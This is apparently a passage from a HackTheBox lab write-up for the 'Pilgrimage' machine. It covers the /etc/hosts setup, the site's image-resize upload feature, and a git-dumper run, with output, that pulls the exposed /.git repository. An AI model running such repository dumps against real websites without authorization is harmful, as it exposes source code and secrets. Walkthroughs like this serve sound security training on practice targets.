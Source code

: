 The home page of the website redirect to Pilgrimage.htb. so we have to add this hostname in `/etc/hosts`

![Home Page](/assets/img/hackthebox/machines writeups/Pilgrimage/redirect.png)

```console
(kali㉿kali)-[~]$ cat /etc/hosts                 
127.0.0.1       localhost 
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters


10.10.11.219    pilgrimage.htb
```

Found that the website is taking an image and resize it to make it smaller then save it with random name under **shrunk** directory.


![](/assets/img/hackthebox/machines writeups/Pilgrimage/upload.png)

![](/assets/img/hackthebox/machines writeups/Pilgrimage/upload2.png)


#### Git Repository

After playing around with the website decided to trying to dump the `/.git` repo content using [git-dumper](https://github.com/arthaud/git-dumper).


```bash
python3.11 git_dumper.py http://pilgrimage.htb/.git/ git

[-] Testing http://pilgrimage.htb/.git/HEAD [200]
[-] Testing http://pilgrimage.htb/.git/ [403]
[-] Fetching common files
[-] Fetching http://pilgrimage.htb/.gitignore [404]
[-] http://pilgrimage.htb/.gitignore responded with status code 404
[-] Fetching http://pilgrimage.htb/.git/COMMIT_EDITMSG [200]
[-] Fetching http://pilgrimage.htb/.git/hooks/pre-commit.sample [200]
-- [snip] --

[-] Fetching http://pilgrimage.htb/.git/refs/stash [404]
[-] http://pilgrimage.htb/.git/refs/stash responded with status code 404
[-] Fetching http://pilgrimage.htb/.git/refs/wip/wtree/refs/heads/master [404]
[-] http://pilgrimage.htb/.git/refs/wip/wtree/refs/heads/master responded with status code 404
[-] Fetching http://pilgrimage.htb/.git/refs/remotes/origin/HEAD [404]
[-] http://pilgrimage.htb/.git/refs/remotes/origin/HEAD responded with status code 404
[-] Fetching http://pilgrimage.htb/.git/refs/wip/index/refs/heads/master [404]
[-] http://pilgrimage.htb/.git/refs/wip/index/refs/heads/master responded with status code 404
[-] Finding packs
[-] Finding objects
[-] Fetching objects
[-] Fetching http://pilgrimage.htb/.git/objects/1f/2ef7cfabc9cf1d117d7a88f3a63cadbb40cca3 [200]
[-] Fetching http://pilgrimage.htb/.git/objects/23/1150acdd01bbbef94dfb9da9f79476bfbb16fc [200]
[-] Fetching http://pilgrimage.htb/.git/objects/f1/8fa9173e9f7c1b2f30f3d20c4a303e18d88548 [200]
[-] Running git checkout .
```
{: .nolineno }
